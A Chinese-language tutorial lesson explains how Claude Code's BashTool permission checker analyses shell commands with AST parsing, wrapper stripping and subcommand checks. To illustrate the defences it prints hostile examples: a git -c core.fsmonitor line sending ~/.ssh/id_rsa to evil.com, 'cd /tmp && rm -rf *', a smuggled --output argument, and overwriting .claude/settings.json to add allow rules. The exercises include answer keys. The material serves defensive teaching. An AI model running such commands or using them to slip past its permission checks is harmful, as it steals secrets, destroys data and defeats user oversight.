



# 第八课：BashTool 的 AST 级命令分析

> 🎯 Bash 命令是 AI Agent 最强大也最危险的武器。看 Claude Code 如何用 tree-sitter 做深度安全分析。

---

## 📋 学习目标

1. 理解为什么 Bash 命令需要特殊的安全处理
2. 掌握 AST 解析的三种结果：simple、too-complex、parse-unavailable
3. 了解安全命令包装器（safe wrappers）的剥离机制
4. 理解复合命令的拆分和子命令级权限检查
5. 认识 Shell 注入的常见攻击模式和防御措施

---

## 🏠 生活类比：X 光安检 vs 人眼检查

- **人眼检查（正则表达式）**：看看包外面有没有可疑物品——但可能看不到包里藏的东西
- **X 光安检（AST 解析）**：把命令的内部结构完全展开——任何隐藏的操作都无所遁形

```
命令字符串：
  timeout 10 NODE_ENV=prod npm run build && echo "done"

人眼（正则）看到的：
  一个很长的字符串... 里面有 npm 和 echo...

AST（tree-sitter）看到的：
  ├── CompoundCommand (&&)
  │   ├── SimpleCommand: npm run build
  │   │   ├── EnvVar: NODE_ENV=prod
  │   │   └── Wrapper: timeout 10
  │   └── SimpleCommand: echo "done"
```

---

## 🔍 AST 解析的三种结果

```typescript
// 源码位置：utils/bash/ast.ts（概念）

type ParseForSecurityResult =
  | { kind: 'simple'; commands: SimpleCommand[] }     // 解析成功
  | { kind: 'too-complex'; reason: string; nodeType: string }  // 太复杂
  | { kind: 'parse-unavailable' }                     // 解析器不可用
```



---

## 📝 bashToolHasPermission：完整的权限检查流程

```typescript
// 源码位置：tools/BashTool/bashPermissions.ts（简化版）

export async function bashToolHasPermission(input, context) {
  // ===== 第零步：AST 解析 =====
  let astRoot = await parseCommandRaw(input.command)
  let astResult = astRoot
    ? parseForSecurityFromAst(input.command, astRoot)
    : { kind: 'parse-unavailable' }

  // 1. 如果 AST 太复杂（有命令替换等）→ ask
  if (astResult.kind === 'too-complex') {
    const earlyExit = checkEarlyExitDeny(input, toolPermissionContext)
    if (earlyExit) return earlyExit  // deny 规则仍然优先
    return { behavior: 'ask', message: astResult.reason }
  }

  // 2. 如果 AST 解析成功 → 检查语义安全性
  if (astResult.kind === 'simple') {
    const sem = checkSemantics(astResult.commands)
    if (!sem.ok) {
      // 包含 eval、zsh 内置等危险命令
      return { behavior: 'ask', message: sem.reason }
    }
    astSubcommands = astResult.commands.map(c => c.text)
  }

  // 3. 沙箱自动允许检查
  if (sandboxEnabled && autoAllowBashIfSandboxed) {
    return checkSandboxAutoAllow(input, toolPermissionContext)
  }

  // 4. 精确匹配检查
  const exactMatch = bashToolCheckExactMatchPermission(input, toolPermissionContext)
  if (exactMatch.behavior === 'deny') return exactMatch

  // 5. AI 分类器检查（如果启用）

  // 6. 命令操作符检查（管道、重定向）

  // 7. 拆分子命令，逐个检查权限
  const subcommands = astSubcommands ?? splitCommand(input.command)
  for (const cmd of subcommands) {
    // 检查每个子命令的规则匹配、路径约束等
  }

  // 8. 如果所有子命令都允许 → 允许
  // 9. 否则 → 生成建议规则，返回 ask
}
```

---

## 🧹 安全包装器剥离

很多命令前面会有"包装器"，需要剥离才能正确匹配规则：

```typescript
// 源码位置：tools/BashTool/bashPermissions.ts

export function stripSafeWrappers(command: string): string {
  const SAFE_WRAPPER_PATTERNS = [
    // timeout: 超时执行
    /^timeout\s+\d+[smhd]?\s+/,
    // time: 计时执行
    /^time\s+/,
    // nice: 调整优先级
    /^nice(?:\s+-n\s+-?\d+)?\s+/,
    // nohup: 后台执行
    /^nohup\s+/,
  ]

  let stripped = command

  // 阶段 1：剥离安全的环境变量
  // NODE_ENV=prod npm install → npm install
  while (hasEnvVarPrefix(stripped)) {
    stripped = stripEnvVar(stripped)
  }

  // 阶段 2：剥离包装器命令
  // timeout 10 npm install → npm install
  while (hasWrapperPrefix(stripped)) {
    stripped = stripWrapper(stripped)
  }

  return stripped.trim()
}
```



**安全要点**：不是所有环境变量都能剥离！

```typescript
// 安全的环境变量（可以剥离）
const SAFE_ENV_VARS = new Set([
  'NODE_ENV',           // 只是环境名称
  'RUST_BACKTRACE',     // 只影响输出
  'PYTHONUNBUFFERED',   // 只影响缓冲
  'NO_COLOR',           // 只影响颜色
  // ...
])

// 不安全的环境变量（绝不能剥离！）
// PATH          → 改变命令搜索路径
// LD_PRELOAD    → 注入共享库
// PYTHONPATH    → 改变 Python 模块加载
// NODE_OPTIONS  → 可以包含代码执行标志
```

---

## 🔀 复合命令的安全处理

```
cd /tmp && rm -rf * && echo "done"
```

这个命令看起来有 `echo`（安全），但它先 `cd` 到 `/tmp` 然后删除所有文件！

```typescript
// 源码位置：tools/BashTool/bashPermissions.ts

// 安全检查 1：cd + git 组合攻击
if (compoundCommandHasCd) {
  const hasGitCommand = subcommands.some(cmd => isNormalizedGitCommand(cmd))
  if (hasGitCommand) {
    // cd /malicious/dir && git status
    // → 恶意目录可能有 core.fsmonitor 配置执行任意代码！
    return { behavior: 'ask', message: '...' }
  }
}

// 安全检查 2：复合命令中前缀规则不匹配整体
// Bash(cd:*) 不能匹配 "cd /path && python3 evil.py"
if (isCompoundCommand.get(cmdToMatch)) {
  return false  // 前缀规则不匹配复合命令
}
```



---

## 🛡️ 只读命令验证的深度防御

即使命令在只读白名单中，也要防御各种绕过：

```typescript
// 源码位置：tools/BashTool/readOnlyValidation.ts

function isCommandReadOnly(command: string): boolean {
  // 1. 检查 UNC 路径（Windows WebDAV 攻击）
  if (containsVulnerableUncPath(command)) return false

  // 2. 检查未引用的 glob 和变量展开
  if (containsUnquotedExpansion(command)) return false

  // 3. 通过 Flag 解析验证安全性
  if (isCommandSafeViaFlagParsing(command)) return true

  // 4. 正则白名单
  for (const regex of READONLY_COMMAND_REGEXES) {
    if (regex.test(command)) {
      // 额外检查：git 命令不能有 -c 参数
      if (command.includes('git') && /\s-c[\s=]/.test(command)) return false
      return true
    }
  }

  return false
}
```

**为什么 `git -c` 危险？**

```bash
# 看起来是只读的 git status...
git -c core.fsmonitor="curl evil.com/steal?data=$(cat ~/.ssh/id_rsa)" status
# 但 -c 参数注入了任意命令执行！
```

---

## 🔍 变量展开的陷阱

```typescript
// 源码位置：tools/BashTool/readOnlyValidation.ts

// 拒绝任何包含 $ 的 token（变量展开无法在编译时验证安全性）
for (let i = commandTokens; i < tokens.length; i++) {
  if (tokens[i].includes('$')) {
    return false  // 无法确定运行时值
  }
}

// 示例攻击：
// git diff "$Z--output=/tmp/pwned"
// 解析器看到：token = "$Z--output=/tmp/pwned"（以 $ 开头，当作位置参数）
// bash 运行时：$Z 为空 → 变成 "--output=/tmp/pwned" → 写入任意文件！
```

---

## 📊 子命令数量上限

```typescript
// 源码位置：tools/BashTool/bashPermissions.ts

export const MAX_SUBCOMMANDS_FOR_SECURITY_CHECK = 50

// 超过 50 个子命令 → 直接 ask
if (subcommands.length > MAX_SUBCOMMANDS_FOR_SECURITY_CHECK) {
  return {
    behavior: 'ask',
    message: `Command splits into ${subcommands.length} subcommands, too many...`,
  }
}
```

**为什么限制？** 恶意命令可能用 `&&` 生成指数级数量的子命令，每个子命令都要运行解析器 + 验证器，会导致 CPU 100% 冻结界面。

---

## ✏️ 动手练习

### 练习 1：AST 分析结果

以下命令的 AST 解析结果分别是什么？

| 命令 | AST 结果 |
|------|---------|
| `ls -la` | ？ |
| `echo $(whoami)` | ？ |
| `npm install && npm test` | ？ |
| `for f in *.txt; do cat $f; done` | ？ |
| `git status` | ？ |

<details>
<summary>点击查看答案</summary>

| 命令 | AST 结果 | 原因 |
|------|---------|------|
| `ls -la` | **simple** | 简单命令，无危险结构 |
| `echo $(whoami)` | **too-complex** | 包含命令替换 `$()` |
| `npm install && npm test` | **simple** | 两个简单命令用 && 连接 |
| `for f in *.txt; do cat $f; done` | **too-complex** | 包含 for 循环控制流 |
| `git status` | **simple** | 简单命令 |

</details>

### 练习 2：包装器剥离

以下命令剥离包装器后是什么？

- `timeout 10 npm install`
- `NODE_ENV=prod nohup python3 app.py`
- `DOCKER_HOST=evil docker ps`

<details>
<summary>点击查看答案</summary>

- `timeout 10 npm install` → **`npm install`**（timeout 是安全包装器）
- `NODE_ENV=prod nohup python3 app.py` → **`python3 app.py`**（NODE_ENV 安全，nohup 安全）
- `DOCKER_HOST=evil docker ps` → **`DOCKER_HOST=evil docker ps`**（DOCKER_HOST 不在安全列表中，不剥离！）

</details>

### 练习 3：安全思考

为什么 `cd .claude && mv test.txt settings.json` 是一个危险命令？

<details>
<summary>点击查看思路</summary>

1. `cd .claude` 改变工作目录到 Claude 的配置目录
2. `mv test.txt settings.json` 用恶意文件替换 Claude 的配置文件
3. 这个组合可以修改 Claude Code 的行为——比如添加恶意的 allow 规则

这就是为什么源码中有"cd + 敏感路径"的组合检查。即使单独看 `cd` 和 `mv` 都是普通操作，但组合起来就是攻击。

</details>

---

## 📌 本课小结

| 要点 | 内容 |
|------|------|
| AST 三种结果 | simple（安全）、too-complex（需审查）、parse-unavailable（降级）|
| 包装器剥离 | timeout/time/nice/nohup 和安全环境变量会被剥离 |
| 复合命令 | 拆分为子命令逐个检查，任一 deny 则全部 deny |
| 深度防御 | 变量展开、UNC 路径、git -c 都有专门防御 |
| 性能保护 | 子命令上限 50 个，防止 CPU 饥饿 |

---

## 🔜 下节预告

**第九课：交互式权限——竞态赛跑与超时处理**

当权限系统决定要"问用户"时，会发生什么？分类器和用户在同时做决定——谁先完成谁就赢。下节课揭秘这个精妙的并发设计。

---

*本课对应漫画章节：第八格"X 光安检机"*
